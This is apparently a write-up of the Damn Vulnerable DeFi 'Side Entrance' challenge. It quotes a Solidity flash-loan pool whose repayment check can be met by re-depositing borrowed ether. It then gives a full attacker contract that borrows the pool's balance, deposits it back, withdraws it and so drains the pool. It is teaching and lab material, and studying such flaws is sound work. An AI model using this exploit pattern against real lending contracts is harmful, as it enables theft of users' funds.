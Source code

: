 # Side Entrance #

here the vulnerability is with the `SideEntranceLenderPool` contract. There is a require statement use to check if the loan has been paid back. Which is where the logic error is.

`pragma solidity ^0.6.0;

import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        msg.sender.sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}`
 
 how can this contract balamce be drained?
` require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");  ` this check is making sure address(this).balance >= balanceBefore. In the contract there is a deposit function that maps each user ether deposit to the users address for withdrawal purpose. so we can hack this contract by borrowing any amount from the flashloan and deeposit it back with the deposit function. The check `address(this).balance >= balanceBefore,` is fulfilled and after depositing.. the user can make the withdrawal of the amount deposited,

The hacker contract[here we want to drain the total ether contract balance]

`contract HackSideEntrance {
    SideEntranceLenderPool public pool;

    constructor(address _pool) public {
        pool = SideEntranceLenderPool(_pool);
    }

    fallback() external payable {}

    function attack() external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        msg.sender.transfer(address(this).balance);
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }
}`
 the `attack` function borrow the pool balance and the pool calls the `execute` function in the hackers contract to send the amount requested to the attacker contract. but in the `execute` function we call the `deposit` function to deposit the total money back to the contract thereby our balance in the contract is updated with the amount deposited. `balances[msg.sender] += msg.value;`.
 THe loan is pay back in the same transaction and the account of the attacker is funded in the `flashloan` contract. after this, the withdraw function is called and the total user balance is withdraw from the loan contract. then the amount is transfered to the msg.sender. 

 so we've been able to drain the flashloan contract balance in one transaction.


solution to the challenge [solution](https://github.com/Ultra-Tech-code/damn-vulnerable-defi/blob/c0f88e3e98dbfaba4eb389c94bfe317f6f1de7a9/test/side-entrance/side-entrance.challenge.js#L29)